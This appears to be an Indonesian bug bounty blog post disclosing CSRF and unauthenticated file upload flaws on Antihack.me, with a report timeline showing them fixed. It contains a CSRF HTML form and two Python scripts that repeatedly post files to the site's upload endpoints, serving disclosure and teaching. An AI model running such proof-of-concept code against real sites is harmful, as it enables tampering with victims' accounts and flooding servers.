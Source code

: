 ```yaml
---
layout: post
title: "Antihack.me CSRF And Arbitrary File Upload"
date: 2019-01-09
tags: [ "Arbitrary File Upload", "CSRF"]
categories: [ "Bug Bounty" ]
---
```


![](/images/bugbounty/antihack/logo.png)

## Introduction

Antihack.me merupakan sebuah website Bug Bounty Platform asal singapura. Setelah mendaftarkan user baru dan berhasil login ke aplikasi, disana terdapat banyak fitur seperti platform-platform bug bounty lainnya, seperti fitur list program, submit report, dan lain sebagainya, termasuk juga dapat mengatur profile kita sebagai bug hunter. 

## CSRF Vulnerability
Cross-site Request Forgery (CSRF) atau bisa disebut dengan one-click attack adalah sebuah serangan yang menggunakan injeksi script baik itu berupa kode javascript, link, atau gambar dengan memanfaatkan token autentikasi.

Disebut one-click attack karena metode ini hanya perlu pemicu dari user dan pemicunya bisa berupa link yang sudah dimaipulasi untuk mengeksekusi perintah.

Nah secara umum CSRF ini bekerja dengan memanfaatkan token autentikasi korbannya dengan tujuan melakukan suatu request yang tidak dinginkan oleh korban. Disini terlihat perbedaan antara CSRF dan Phising, Phising menggunakan url samaran untuk menipu korbannya yang seakan - akan menyerupai website resminya sedangkan CSRF korban akan dibawa kesebuah website yang baginya menarik dan oleh hacker website tersebut akan diinject dengan script jahat. [source](https://www.kodinggen.com/apa-itu-csrf-bagaimana-cara-kerjanya-dan-tips-pencegahannya/)

## CSFR On Profile Image File Upload

Tertarik dengan fitur upload imagenya, kita coba intercept request upload image tersebut.

![](/images/bugbounty/antihack/csrf1/burp.png)

Terlihat disana beberapa parameter yang dikirimkan, akan tetapi disana tidak ada csrf protection, artinya kita dapat memanfaatkan celah ini untuk merubah foto profile orang lain dengan malicious file/script.

Malucious file html:
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>CSRF File Upload</title>
</head>
<body>
	<form action="https://www.antihack.me/php/img_save_to_file_hacker.php" method="POST" name="csrf" enctype="multipart/form-data">
		<input type="file" name="img">
		<input name="HOST" value="AntiHACK">
		<input type="submit" value="Kirim">
	</form>
</body>
</html>
```

Lalu kita coba akses secript diatas di browser dan didapatkan file berhasil diupload dengan baik, artinya jika orang lain yang sedang login ke platform lalu mengakses malicious file tersebut maka secara otomatis foto profile nya akan berubah :)

![](/images/bugbounty/antihack/csrf1/html.png)



## Arbitrary File Upload #1

Biasanya disebut sebagai "Arbitrary File Upload", seorang attacker dapat mengakses fungsi upload tertentu pada aplikasi tanpa proses autentikasi yang benar. Meski tidak dijelaskan secara khusus oleh CWE, secara tidak langsung disebut melalui CWE-862 “Missing Authorization”(Mitre, 2015). Arbitrary File Upload dapat berimpact remote DOS (Denial Of Service), unauthecticated user dapat membanjiri storage server. Kerentanan ini biasanya disebabkan oleh tidak adanya pengecekan otorisasi yang benar. [Source : SANS](https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487)

Pada kasus CSRF pada foto profile diatas ternyata juga terdapat celah Arbitary File Upload, dimana dengan script python dibawah ini kita dapat membanjiri server dengan gambar sampah tanpa proses autentikasi :
```
#!/usr/bin/python3

import requests

headers = {
    'Origin':'www.antihack.me'
}
files = {
        'img': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }
data = {
    "HOST":"AntiHACK"
}

for i in range(3):
    r = requests.post("https://www.antihack.me/php/img_save_to_file_hacker.php",files=files, headers=headers, data=data)
    print(r.text)
```
Ketika dieksekusi, file terupload dengan baik.


![](/images/bugbounty/antihack/csrf1/python.png)

## Arbitrary File Upload #2 

Sepertihalnya platform bug bounty pada umumnya, disana terdapat fitur untuk melakukan reporting terkait celah keamanan yang ditemukan. Didalam fitur reporting tersebut terdapat beberapa fungsi editing, tak lupa fungsi upload file gambar/video juga disertakan guna kelengkapan report. 

Dengan script python dibawah ini kita juga dapat membanjiri server dengan gambar sampah tanpa proses autentikasi :
```
#!/usr/bin/python3

import requests


files = {
        'files[]': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }

for i in range(5):
	r = requests.post("https://www.antihack.me/php/ajax_upload_file_company_new.php",files=files)
	print(r.text)


```

Didapatkan result sebagai berikut:

![](/images/bugbounty/antihack/csrf2/python.png)

Semoga bermanfaat :"


```
2018-12-28: Bug reported
2018-12-29: Triaged
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```